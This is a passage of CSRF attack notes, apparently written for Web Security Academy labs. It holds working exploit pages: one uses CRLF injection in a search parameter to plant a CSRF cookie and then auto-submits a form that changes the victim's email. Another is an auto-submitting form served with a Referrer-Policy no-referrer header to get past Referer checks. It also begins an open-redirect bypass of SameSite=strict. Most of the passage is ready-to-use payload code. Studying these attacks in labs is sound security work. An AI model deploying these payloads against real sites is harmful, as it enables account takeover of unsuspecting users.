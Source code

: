 The following is an exploit hosted on a server to execute the change email functionality. First, it will set the attacker's cookie into the victim's browser through the unsanitized search functionality, via an `<img>` tag that will error out after sending the request, then it will submit the form through the `onerror` function which will send a POST request to the change email endpoint, updating the victim's email to the attacker's chosen value.
```
<html>
<img src="https://vulnerable-website.com/?search=term%0d%0aSet-Cookie:%20csrfKey=j4wmHRgXySlbhb4Has0Kc5koyZpSNpwI%3b%20SameSite=None" onerror="document.forms[0].submit()" />
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0ab100be03bcba7c845a4583002c000c.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="PWNED2&#64;email&#46;com" />
      <input type="hidden" name="csrf" value="YHW4zvcquBMBQLUzkDjk2II6hCUDEcTx" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
#### *Bypass `Refferer` header with `Refferer-Policy: no-referrer`*
As stated in the title, if a web application is blocking a cross-site request due to the `Refferer` header being set to an invalid domain not recognized by the server, then you can bypass by setting the `Refferer-Policy: no-referrer` header in the request.
```
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Referrer-Policy: no-referrer

<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://vulnerable-website.com/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="attacker&#64;email.com" />
      <input type="submit" value="Submit request" />
    </form>
<script>
document.forms[0].submit();
</script>
  </body>
</html>
```
#### *Bypass `SameSite=strict` with open redirect*
With this example, there is an open redirect vulnerability once a user has submitted a comment on a blog page, that runs this function:
```
redirectOnConfirmation = (blogPath) => {
    setTimeout(() => {
        const url = new URL(window.location);
        const postId = url.searchParams.get("postId");
        window.location = blogPath + '/' + postId;
    }, 3000);
}
```
